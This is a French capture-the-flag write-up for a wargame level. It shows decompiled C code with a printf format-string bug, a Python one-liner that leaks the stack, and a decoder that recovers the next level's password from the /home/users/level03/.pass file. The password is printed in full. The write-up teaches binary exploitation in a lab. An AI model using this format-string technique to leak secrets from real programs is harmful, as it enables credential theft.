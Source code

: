 Dans les sources:
  char s2[96];
  int v5;
  char ptr[48];
  char s[96];
  ...
  FILE *stream;
  ...
  stream = fopen("/home/users/level03/.pass", "r");
  v9 = fread(ptr, 1uLL, 0x29uLL, stream);
  fgets(s, 100, stdin);
  ...
  fgets(s2, 100, stdin);
  ...
  printf(s);

s2[96] est avant ptr[] (ou est stocke .pass) dans la memoire, on va tenter de print 96 'A' dans s2 et des '%x ' dans s[96] car s est envoye a printf

# bash:

	> python -c "print '%p '*32 + '\n' + 'A'*96" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520  does not have access!

On voit ou s'arrete notre s[] rempli de 'A' (0x41), on prend les 40 prochains bytes (apres notre dernier 0x4141..41 et on skip 0x100..0 et nil):
	0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
On les transforme en char (ecrits a l'envers donc '0x756e505234376848' en memoire = '4868373452506e75' soit 'Hh74RPnu' pour une lecture pour un humain)
	> python -c "print(''.join([bytes.fromhex(x).decode('ascii')[::-1] for x in '0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d'.split('0x') if x]))"
<<< Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H